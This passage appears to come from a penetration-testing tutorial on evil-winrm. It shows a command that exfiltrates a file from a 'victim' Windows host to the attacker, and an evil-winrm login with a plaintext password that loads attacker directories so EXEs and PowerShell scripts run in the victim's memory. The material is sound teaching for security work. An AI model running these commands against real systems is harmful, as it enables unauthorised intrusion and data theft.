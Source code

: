 ## **Uploading Files onto the Victim Using evil-winrm**

Just the same way we used the **upload** command to download a file from our attacker onto the victim, we can also use **download** command to upload or exfiltrate files from the victim back to our attacker machine.

```
download C:\temp\supersecret.txt /opt/Juggernaut/JUGG-Backup/supersecret.txt
```

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-179.png)

And then back on our attacker machine, we can see that the file was successfully uploaded.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-180.png)

## **Executing Files and Scripts Directly from Attacker (NO TRANSFER NEEDED)**

For the last example, I want to quickly outline some of the power that evil-winrm has. With evil-winrm, there are two different switches that deserve mentioning and they are the ‘**\-e**‘ switch and the ‘**\-s**‘ switch:

-   The ‘**\-e**‘ switch is used to set a directory from your attacker machine that can be used to execute binary (EXE) files directly on the victim.
-   The ‘**\-s**‘ switch is used to set a directory from your attacker machine that can be used to execute PS1 scripts directly on the victim.

Setting a directory for both PS1 scripts and binaries (EXE’s) allows us to execute them from our attacker machine directly into memory on the victim. Bets of all, this is done without needing to download or transfer the file onto the victim.

> If your EXE’s and PS1 scripts are in the same directory then set the same directory for both switches.

```
evil-winrm -u backup_svc -p 'Makemoney1!' -i 172.16.1.10 -e /opt/Windows/exploits/executables -s /opt/Windows/exploits/Powershell
```

To execute binaries from our attacker machine we need to use evil-winrm’s custom built-in **Invoke-Binary** function.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-181.png)

Now, when we type **Invoke-Binary** followed by a tab, it will auto complete to the executables folder we assigned. Pressing tab a second time will show you all the executables you have available.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-182.png)

Not all of these binaries will work with evil-winrm, since it only allows .Net assemblies (executables compiles from C#) to be executed in memory. For example, lets compare **nc.exe** and **winPEASx64.exe**:

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-183.png)
